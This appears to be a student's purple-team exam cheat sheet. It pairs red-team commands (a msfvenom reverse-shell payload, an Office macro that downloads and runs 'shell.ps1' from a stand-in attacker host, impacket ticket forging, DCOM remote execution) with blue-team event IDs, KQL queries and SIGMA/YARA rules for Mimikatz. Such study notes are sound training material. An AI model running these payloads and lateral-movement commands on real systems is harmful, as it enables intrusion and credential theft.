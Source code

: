 It's combination of [[Red Team]] and [[Blue Team]]. 

Defending tools to be familiar with: Velociraptor, IDS Tower, ELK Stack, Wazuh, Suricata IDS. It really depends so I did a little cheatsheet.

Exam deadline: **4.09.2025**


# Red Team short: 
```
#INIT ACCESS
# Phishing payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 -f exe > payload.exe

# Office macros
Sub AutoOpen()
    Shell "cmd.exe /c powershell -ep bypass -c IEX (New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"
End Sub

#PRIV ESC
# Common checks
whoami /priv
systeminfo
net localgroup administrators

# Tools
winpeas.exe
seatbelt.exe
powerup.ps1

#LATERAL MOVEMENT (optional)
# Pass-the-Ticket
impacket-ticketer -nthash HASH -domain-sid SID -domain DOMAIN user

# Overpass-the-Hash
impacket-getTGT domain/user:password

# DCOM execution
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.10"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c whoami","7")
```

# Blue Team short: 
```
TOP 10 IDS:
4624 - Successful logon
4625 - Failed logon
4648 - Explicit credentials logon
4672 - Special privileges assigned
4688 - New process created
4697 - Service installed
4700 - Scheduled task enabled
4720 - User account created
4732 - Added to security group
4769 - Kerberos TGS requested
```
Critical security events to remember: 
```
// Multiple failed logons
SecurityEvent | where EventID == 4625 | where TimeGenerated >= ago(10m) 
| summarize FailedCount = count() by Account, Computer, IpAddress
| where FailedCount > 5

// New service installation
SecurityEvent | where EventID == 4697 | where TimeGenerated >= ago(1h)
```

# SIGMA rules:
```title: Mimikatz Detection
logsource:
    category: process_creation
detection:
    selection:
        Image|endswith: '\mimikatz.exe'
        CommandLine|contains: 
            - 'sekurlsa::logonpasswords'
            - 'lsadump::sam'
    condition: selection
falsepositives:
    - Legitimate penetration testing
level: high
```

# YARA rules:
```
rule Mimikatz_Indicator {
    meta:
        description = "Detects Mimikatz patterns"
    strings:
        $s1 = "mimikatz" nocase
        $s2 = "sekurlsa" nocase
        $s3 = "kerberos::golden"
    condition:
        any of them
}
```
